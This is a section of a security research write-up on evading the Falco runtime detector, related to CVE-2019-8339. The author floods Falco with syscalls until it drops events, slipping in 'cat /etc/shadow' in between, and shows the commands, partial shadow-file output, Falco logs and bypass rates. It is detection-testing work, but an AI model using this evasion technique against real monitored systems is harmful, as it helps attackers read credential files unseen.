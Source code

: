 ## <a name="cve"></a>A Word on CVE-2019-8339 and Falco Denial of Service

In v0.15.0 Falco maintainers fixed a Denial of Service vulnerability. A flood of events initiated by an attacker, either in a container or on a host, could overwhelm the Falco ring buffer and cause it to drop relevant events. The vulnerability was addressed through multiple vectors, but the underlying premise is still there - an attacker can try to DoS Falco through event bursts while sneaking the malicious event in between the bursts. This was the premise of my tests: [fuber-dos utility](fubers/fuber-dos.c) generates a desired number of _open_ system calls while squeezing another, potentially malicious command, in between. Local cluster tests were performed on the CentOS7 4G VM. Interestingly, the results were different depending on the environment. Following is the list of the tested environment along with the achieved bypass effect.

### On a host
When running the utility on the host, 200K fake events seem to be enough to cause Falco to consistently drop events and bypass detection on a semi-regular basis. Out of 10 tries, only 7 of them detected "Sensitive file opened" successfully:
```
[Host]
$ fubers/fuber-dos 100000 "sudo cat /etc/shadow"
OUTPUT: root:$6$LrM
...
-----
[Falco]
16:41:47.445369441: Warning Sensitive file opened for reading by non-trusted program (user=root user_loginuid=1001 program=cat command=cat /etc/shadow file=/etc/shadow parent=sudo gparent=fuber-dos ggparent=bash gggparent=<NA> container_id=host image=<NA>) k8s.ns=<NA> k8s.pod=<NA> container=host k8s.ns=<NA> k8s.pod=<NA> container=host
16:41:48.165897667: Debug Falco internal: syscall event drop. 177560 system calls dropped in last second. (ebpf_enabled=0 n_drops=177560 n_drops_buffer=177560 n_drops_bug=0 n_drops_pf=0 n_evts=709839)
-----
[Host]
$ fubers/fuber-dos 200000 "sudo cat /etc/shadow"
OUTPUT: root:$6$..
OUTPUT: bin:*:17834:0:99999:7:::
OUTPUT: daemon:*:17834:0:99999:7:::
...
-----
[Falco]
16:39:22.454119032: Debug Falco internal: syscall event drop. 506027 system calls dropped in last second. (ebpf_enabled=0 n_drops=506027 n_drops_buffer=506027 n_drops_bug=0 n_drops_pf=0 n_evts=973382)
16:39:23.455681284: Debug Falco internal: syscall event drop. 334965 system calls dropped in last second. (ebpf_enabled=0 n_drops=334965 n_drops_buffer=334965 n_drops_bug=0 n_drops_pf=0 n_evts=650240)
```
### On a docker container
When running the utility on a docker container with a cluster running alongside, 300K fake events seem to be enough to cause Falco to consistently drop events and bypass detection on a semi-regular basis. Out of 10 tries, only 4 of them detected "Sensitive file opened" successfully:
```
[Container]
$ docker run -it sshayb/fuber:latest bash
root@b2e38b90b032:/tmp/fubers# ./fuber-dos 200000 'cat /etc/shadow'
OUTPUT: root:*:18759:0:99999:7:::
...
-----
[Falco]
16:59:09.482207892: Warning Sensitive file opened for reading by non-trusted program (user=root user_loginuid=-1 program=cat command=cat /etc/shadow file=/etc/shadow parent=sh gparent=fuber-dos ggparent=bash gggparent=<NA> container_id=b2e38b90b032 image=sshayb/fuber) k8s.ns=<NA> k8s.pod=<NA> container=b2e38b90b032 k8s.ns=<NA> k8s.pod=<NA> container=b2e38b90b032
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS